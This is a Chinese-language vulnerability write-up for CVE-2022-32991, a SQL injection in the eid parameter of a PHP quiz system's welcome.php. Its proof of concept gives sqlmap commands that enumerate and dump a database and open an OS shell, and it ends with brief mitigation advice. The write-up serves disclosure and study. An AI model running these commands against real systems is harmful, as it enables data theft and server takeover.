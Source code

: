 # CVE-2022-32991

## Description

Web Based Quiz System v1.0 的 welcome.php 中的eid参数被发现包含一个SQL注入漏洞。

## Explanation of exploit; PoC

1. 漏洞文件welcome.php位于网站根目录。第93行没有过滤eid参数，在第96行直接带入数据库查询，导致SQL注入漏洞：

   ![](images/CVE-2022-32991-1.png)

2. 先注册一个普通用户然后登录，然后点击 start 按钮，用 Burp Suite 抓取数据包如下图：

   ![](images/CVE-2022-32991-2.png)

3. 将数据包保存为 eid.txt，使用sqlmap获取数据库信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid`，如下图：

   ![](images/CVE-2022-32991-3.png)

   ![](images/CVE-2022-32991-4.png)

4. 获取数据库信息后，使用sqlmap获取表信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf --tables`，如下图：

   ![](images/CVE-2022-32991-5.png)

5. 获取表信息后，使用sqlmap获取列信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag --columns`，如下图：

   ![](images/CVE-2022-32991-6.png)

6. 获取列信息后，使用sqlmap获取数据，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag -C flag --dump`，如下图：

    ![](images/CVE-2022-32991-7.png)

7. 也可以获取 os-shell, sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid --os-shell`，如下图：

   ![](images/CVE-2022-32991-8.png)

## Mitigation

1. 对输入的数据进行过滤，防止SQL注入漏洞。
2. 使用预编译语句，防止SQL注入漏洞。

## Refer

- https://nvd.nist.gov/vuln/detail/CVE-2022-32991
- https://www.yuque.com/docs/share/fd95cc4d-2a38-4e5a-9fac-bfa3534f8056